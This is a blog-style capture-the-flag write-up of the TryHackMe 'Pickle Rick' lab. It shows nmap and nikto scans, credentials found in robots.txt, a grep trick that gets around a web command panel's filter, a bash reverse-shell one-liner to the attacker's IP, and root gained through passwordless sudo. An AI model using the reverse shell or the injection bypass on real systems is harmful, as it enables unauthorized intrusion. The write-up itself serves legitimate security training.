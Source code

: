 ```yaml
---
title: "TryHackMe: Pickle Rick"
date: 2020-11-11 00:00:00 +/-TTTT
categories: [Writeups, TryHackMe, easy]
tags: [tryhackme, easy]     # TAG names should always be lowercase
---
```


**Title**: Pickle Rick

**Platform**: TryHackMe

**Difficulty**: Easy
 
**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

[Pickle Rick Challenge Link](https://tryhackme.com/room/picklerick)

 > [!NOTE]
 This writeup does not divulge the flags.

I am a big Rick & Morty fan so this was the natural first pick to kick off the write ups! Let’s get Schwiftyyyyyyyy…

## Enumeration

Let’s begin with our favorite tool in the whole wide world..`NMAP`!

```js
root@ip-10-10-2-8:~# nmap -sS 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:40 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
```

And with a few other switches..

```javascript
root@ip-10-10-2-8:~# nmap -sC -sV 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:41 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:29:35:20:59:12:22:6d:b5:9e:71:a9:13:ae:74:c1 (RSA)
|   256 4d:ad:85:45:39:1f:4e:e4:c5:f5:27:14:57:d3:81:fd (ECDSA)
|_  256 ff:d6:fd:35:1d:6e:2b:e8:66:8b:33:20:eb:b2:f4:35 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

Navigating to Port 80 we are greeted with Grandpa RICK

![image](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527366805/b4a313e6-97de-49cc-ab3f-4243af9103a7.png)

Viewing the source of the `index.html` page we see the following

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527391473/f6847fe0-61a7-4fb2-b44b-f3c37d9137c0.png)

Now let’s enumerate the usual suspects using `nikto`

```javascript
root@ip-10-10-2-8:~# nikto -h <http://10.10.238.189>
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.238.189
+ Target Hostname:    ip-10-10-238-189.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-12-28 20:44:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-12-28 20:44:47 (GMT0) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

* `robots.txt`
    
    I couldn’t stop laughing when I saw the entry
    
    ![image3](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527420086/9bb35c2a-bf34-4351-b62e-833c0c7a0da7.png)
    
* `login.php`
    
    Let’s try a few standard combinations for usernames and passwords
    

![image4](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527440172/6d9a96d0-79f7-4802-8d13-b367a7d3c0ab.png)

Username found earlier with the `robots.txt` entry combination works and we are in!

We are now logged into a `portal.php`

![image5](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527456037/e5603924-17d9-47fa-8b09-b628685f1fb2.png)

All the other tabs redirect to `denied.php` so we will investigate the command panel with something simple for a command injection

`Cat` the first one doesn’t work and we get a Command disabled message so let’s look at the `clue.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527470931/acaa5158-d97b-4a2c-b333-37cbb0d550ca.png)

`Cat` and `tail` and similar commands do not work but we notice that `grep` works, now we use a shwifty little trick to read the text file like so

```jsx
grep -v "test" filename
```

Voila! We have our first ingredient!

## I Smell a Shell Morty!

Let’s try to pop a shell and we see we get a similar response with `sh` and a few moments later this works

```bash
bash -c 'sh -i >& /dev/tcp/10.10.2.8/4444 0>&1'
```

We read the `clue.txt` and go to `/home` and we see the second ingredient folder and go grab it.

You don't necessarily need to pop a shell, you can get by with command injection in the panel we saw earlier but shells are fun and I like poppin' them.

## One Step Closer....All powerful Root!

Now for the final ingredient which is root probably we see that the user `www-data`has sudo access and we run sudo -l to see what privileges our user has.

```bash
(ALL) NOPASSWD: ALL
```

Don't we just love when this happens?

```bash
sudo -i
```

We are root!

Head to the root directory and we have our final ingredient.

That's all for today folks, see you on the next one!